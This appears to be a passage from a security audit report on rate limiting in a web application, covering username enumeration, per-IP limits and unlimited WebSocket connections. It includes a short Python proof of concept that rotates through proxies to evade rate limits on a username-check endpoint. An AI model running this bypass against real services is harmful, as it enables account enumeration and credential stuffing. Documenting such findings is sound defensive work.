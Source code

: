 **Attack Vectors:**

1. **Username Enumeration Bypass:**
   - 100 requests per 15 minutes = ~6 requests/minute
   - Attacker can enumerate 6 usernames per minute
   - 360 usernames per hour

2. **Distributed Attack:**
   - Rate limit is per-IP
   - Attacker uses multiple IPs (VPN, botnet, Tor)
   - Bypass rate limits completely

**Proof of Concept:**

```python
# Distributed rate limit bypass
import requests
from itertools import cycle

# List of proxy IPs
proxies = [
    'http://proxy1.com:8080',
    'http://proxy2.com:8080',
    # ... 100 more proxies
]

proxy_pool = cycle(proxies)

for username in usernames:
    proxy = next(proxy_pool)
    response = requests.get(
        f'https://[server]/api/auth/check-username/{username}',
        proxies={'http': proxy, 'https': proxy}
    )
    # Bypassed rate limit!
```

**Impact:**
- Rate limiting ineffective against distributed attacks
- Username enumeration at scale
- Credential stuffing attacks

---

### 7.2 MEDIUM: No Rate Limiting on WebSocket Connections

**Severity:** MEDIUM  
**CVSS Score:** 5.5

**Vulnerability Description:**

WebSocket connections have no rate limiting:

```javascript
// server/server.js
io.on('connection', (socket) => {
  // No rate limiting!
  // Attacker can open unlimited connections
});
```
